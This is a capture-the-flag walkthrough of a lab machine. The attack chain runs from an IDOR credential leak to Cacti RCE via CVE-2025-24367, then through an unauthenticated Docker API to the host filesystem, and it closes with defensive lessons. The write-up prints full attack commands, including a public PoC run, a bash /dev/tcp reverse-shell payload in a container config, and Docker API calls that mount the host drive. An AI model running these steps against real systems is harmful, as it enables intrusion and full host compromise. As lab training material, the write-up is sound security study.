

### Attack Path Summary

IDOR → Credential Disclosure → Cacti RCE → Container Access → Docker API Abuse → Host Filesystem Mount → Administrator Flag

---

## 1. Reconnaissance

Initial reconnaissance on the target 10.10.11.98:

```bash
nmap -sCV -T4 -A <Target_IP> -o filename
```


- **Port 80/tcp** — HTTP service (nginx server)
- **Port 5985/tcp** — WinRM (Windows Remote Management)

There is nothing of note on the website.


---

## 2. Enumeration

### 2.1 Directory Enumeration

To discover useful endpoints, directory fuzzing was performed:

```bash
ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://monitorsfour.htb/FUZZ -ac
```


A `/user` endpoint was discovered. Navigating to it returned an error indicating a missing `token` parameter.


Testing with `token=0` in the URL returned valid user data. This is an **IDOR (Insecure Direct Object Reference)** vulnerability — the backend failed to validate token ownership or enforce any authorization checks, allowing arbitrary token values (including `0`) to return sensitive user data. Tokens appear to be sequentially assigned integers, making them trivially predictable.


The returned passwords were hashed using unsalted MD5, making them vulnerable to fast dictionary-based cracking via public hash databases such as crackstation.net.


Valid credentials were obtained from the cracked hashes.

### 2.2 Host Enumeration

Attempting to log in directly at `monitorsfour.htb` with the recovered credentials did not succeed. Since port 5985 was also open, virtual host enumeration was performed to discover additional services:

```bash
ffuf -u http://monitorsfour.htb -H "Host: FUZZ.monitorsfour.htb" -w /usr/share/dirb/wordlists/big.txt -ac
```


A subdomain `cacti.monitorsfour.htb` was discovered. It was added to `/etc/hosts` and navigated to.


Logging in with `admin / wonderful1` failed, indicating the username was incorrect. Using additional profile information exposed by the IDOR endpoint — specifically the administrator's name (Marcus Higgins) and email address — a small set of plausible username variations was tested.

Authentication succeeded with:

- **Username:** marcus
- **Password:** wonderful1

---

## 3. Exploitation

### 3.1 Vulnerability Identification

The Cacti version was visible on both the login page and the dashboard.


The installed version was **Cacti 1.2.28**. A review of known vulnerabilities for this version revealed **CVE-2025-24367**, a critical flaw affecting Cacti versions ≤ 1.2.28.

This vulnerability allows authenticated users to achieve remote code execution through command injection in the Graph Template functionality, caused by improper sanitization of user-supplied input passed to `rrdtool`.

### 3.2 Exploit Preparation

With a confirmed vulnerable Cacti version and a proof-of-concept available, the exploit was prepared by cloning the repository to the attacking machine:

```bash
git clone https://github.com/TheCyberGeek/CVE-2025-24367-Cacti-PoC
cd CVE-2025-24367-Cacti-PoC
```

### 3.3 Remote Code Execution

A listener was started on port 4444 to catch the incoming reverse shell:

```bash
nc -lnvp 4444
```

The proof-of-concept exploit was then executed:

```bash
sudo python3 exploit.py -url http://cacti.monitorsfour.htb -u marcus -p wonderful1 -i 10.10.14.145 -l 4444
```


A reverse shell was received on port 4444.


The shell landed as the `www-data` user inside the Cacti web directory, providing an initial foothold on the machine.

### 3.4 Obtaining the User Flag

After gaining shell access, the context was confirmed using basic identification commands:

```bash
whoami
id
```

The `/home` directory was enumerated to identify valid local users on the system:

```bash
ls -la /home
```

This revealed a home directory for user `marcus`, consistent with the credentials used earlier. Navigating into `/home/marcus` revealed a world-readable `user.txt` file containing the user flag.


---

## 4. Privilege Escalation

### 4.1 Container Identification

The system hostname followed a hexadecimal format similar to a Docker container ID, immediately suggesting a containerized environment. The `sudo` command was also unavailable, further indicating a restricted execution context.

Network configuration confirmed this — the assigned IP address fell within the `172.18.0.0/16` range with a default gateway of `172.18.0.1`, characteristic of a Docker bridge network.


### 4.2 Host IP Discovery

Inspecting `/etc/resolv.conf` revealed internal DNS configuration automatically generated by the Docker engine. In containerized environments, this file often discloses the host-side IP address used by Docker.

The resolver configuration revealed the Docker host IP: **192.168.65.7**.


### 4.3 Docker API Exposure

Since unauthenticated Docker APIs have historically been exposed on TCP port 2375, the host was tested for an accessible Docker Engine endpoint:

```bash
curl http://192.168.65.7:2375/version
```


The Docker Engine Remote API was confirmed to be accessible without authentication. When the Docker daemon is exposed this way:

- Any user can create containers
- Containers can mount arbitrary host paths
- Containers can run in privileged mode
- Host kernel protections are bypassed

Controlling an unauthenticated Docker API is effectively equivalent to root access on the host.

### 4.4 Enumerating Docker Images

Available images on the host were enumerated through the API:

```bash
curl http://192.168.65.7:2375/images/json | grep "RepoTags:\[[^]]*\]"
```


Several locally available Docker images were identified.

### 4.5 Malicious Container Creation

An existing image (`docker_setup-nginx-php:latest`) was selected to avoid pulling new images, which could fail in restricted environments or generate detectable outbound traffic.

> **Note:** In WSL2 environments, the Windows host filesystem is exposed under `/mnt/host/c`, making it possible to directly access the Windows C drive from Linux containers. This is specific to the lab environment used here.

A container configuration file was created on the attacking machine:

```json
{
  "Image": "docker_setup-nginx-php:latest",
  "Cmd": [
    "/bin/bash",
    "-c",
    "bash -i >& /dev/tcp/<tun-ip>/<port> 0>&1"
  ],
  "HostConfig": {
    "Binds": [
      "/mnt/host/c:/host_root"
    ]
  }
}
```

An HTTP server was started to deliver the file to the target:

```bash
python3 -m http.server 8000
```

The file was fetched from within the container:

```bash
curl http://<tun-ip>:8000/container.json -o container.json
```

### 4.6 Obtaining the Root Flag

The container was created via the Docker API:

```bash
curl -H "Content-Type: application/json" -d @container.json http://192.168.65.7:2375/containers/create?name=pwned
```

A listener was started on port 9999:

```bash
nc -lnvp 9999
```

The container was started, triggering the callback:

```bash
curl -X POST http://192.168.65.7:2375/containers/pwned/start
```

Full access to the Windows host filesystem was obtained via the bind mount. Since the final flag in HTB Windows environments is conventionally stored on the Administrator's Desktop, that path was checked directly:

```bash
ls /host_root/Users/Administrator/Desktop/
cat /host_root/Users/Administrator/Desktop/root.txt
```


The root flag was successfully retrieved.

---

## 5. Lessons Learned

This machine demonstrated how a chain of seemingly isolated weaknesses can result in full host compromise:

- **IDOR** with predictable integer tokens is a critical misconfiguration that should never reach production — always validate token ownership server-side.
- **Unsalted MD5** for password storage is trivially reversible; modern hashing algorithms like bcrypt or Argon2 should be used instead.
- **Keeping software patched** matters — CVE-2025-24367 was a known, publicly exploited vulnerability in a version that had available patches.
- **Exposing the Docker API without authentication** is equivalent to handing out root on the host. If the Docker socket or remote API must be exposed, it should be protected behind TLS mutual authentication at minimum.

---

## Root Cause Summary

- Insecure Direct Object Reference exposing administrator credentials via predictable token values
- Outdated Cacti version (1.2.28) vulnerable to authenticated RCE via CVE-2025-24367
- Application running inside a Docker container with no isolation awareness
- Unauthenticated Docker Remote API exposed on the host, enabling arbitrary container creation and host filesystem access